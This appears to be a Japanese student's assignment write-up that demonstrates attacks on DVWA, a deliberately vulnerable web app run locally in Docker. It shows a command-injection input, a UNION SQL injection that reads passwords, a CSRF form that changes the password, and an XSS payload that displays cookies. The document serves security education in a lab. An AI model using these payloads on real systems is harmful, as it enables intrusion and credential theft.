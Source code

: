 # 課題３（実演）

DVWA に最低限、以下の攻撃を成功させ、それぞれの攻撃に対して有効な防御手段を説明

## 実行環境の準備

1. `docker pull vulnerables/web-dvwa`
2. `docker run --rm -it -p 80:80 vulnerables/web-dvwa`
3. http://localhost にアクセス
4. admin, password でログイン

## 実行結果

### コマンドインジェクション

```
127.0.0.1; echo 'hoge';
```

![command-injection](./screenshots/command-injection.png)

### SQL インジェクション

```
' union select null, password from users #
```

![sql-injection](./screenshots/sql-injection.png)

### CSRF

1. 既存ページのフォームを模した HTML ファイルを用意

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>CSRF</title>
  </head>
  <body>
    <form action="http://localhost/vulnerabilities/csrf" method="GET">
      "New password:"
      <br />
      <input type="password" autocomplete="off" name="password_new" /><br />
      "Confirm new password:"
      <br />
      <input type="password" autocomplete="off" name="password_conf" /><br />
      <input type="submit" value="Change" name="Change" />
    </form>
  </body>
</html>
```

2. ブラウザからパスワード変更リクエストをサブミット

![csrf-html](./screenshots/csrf-html.png)

3. 変更できてしまう

![csrf-result](./screenshots/csrf-result.png)

### XSS

```
http://localhost/vulnerabilities/xss_d/?default=<script>window.alert(document.cookie)</script>
```

![xss](./screenshots/xss.png)

### 対策

課題 1 で回答の通り

## 参照

- [GitHub: DVWA](https://github.com/digininja/DVWA)
- [YouTube: IT 社長が WEB アプリの脆弱性を突いてみた（コマンドインジェクション編）](https://www.youtube.com/watch?time_continue=690&v=kvjYqXByjjU)
